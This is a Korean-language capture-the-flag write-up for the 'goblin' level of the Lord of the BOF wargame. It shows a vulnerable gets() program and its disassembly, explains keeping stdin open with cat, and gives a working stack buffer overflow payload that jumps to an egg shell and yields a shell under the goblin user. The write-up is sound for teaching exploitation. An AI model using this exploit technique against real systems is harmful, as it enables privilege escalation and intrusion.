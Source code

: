 ``` bash2
[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

### Solution

이전 문제에서 argv[1]을 통해 bof를 했던것과 달리 stdin으로 bof를 한다. 이런 문제의 경우 gets() 함수가 끝난 뒤 EOF를 전송하기 때문에 쉘을 얻어도 EOF가 전송되면서 쉘이 바로 종료된다. 따라서 cat으로 따로 처리를 해주어야 한다.

cat은 stdin을 stdout으로 만들어주는 효과를 가지며 이를 파이프로 사용하여 쉘에 EOF 전송하지 않고 사용자의 입력을 쉘에 전송하는 효과를 얻을 수 있게한다.

``` bash2
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %ebp,%esp
0x80483fb <main+3>:	sub    %esp,16
0x80483fe <main+6>:	lea    %eax,[%ebp-16]
0x8048401 <main+9>:	push   %eax
0x8048402 <main+10>:	call   0x804830c <gets>
0x8048407 <main+15>:	add    %esp,4
0x804840a <main+18>:	lea    %eax,[%ebp-16]
0x804840d <main+21>:	push   %eax
0x804840e <main+22>:	push   0x8048470
0x8048413 <main+27>:	call   0x804833c <printf>
0x8048418 <main+32>:	add    %esp,8
0x804841b <main+35>:	leave  
0x804841c <main+36>:	ret   
```

``` bash2
[cobolt@localhost cobolt]$ /tmp/eggshell/eggshell
[cobolt@localhost cobolt]$ cp /tmp/eggshell/geteggaddr ./gobli2
[cobolt@localhost cobolt]$ ./gobli2
EGG addr : 0xbffffcba
[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\xba\xfc\xff\xbf"';cat)  | ./goblin
AAAAAAAAAAAAAAAAAAAA빠
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```
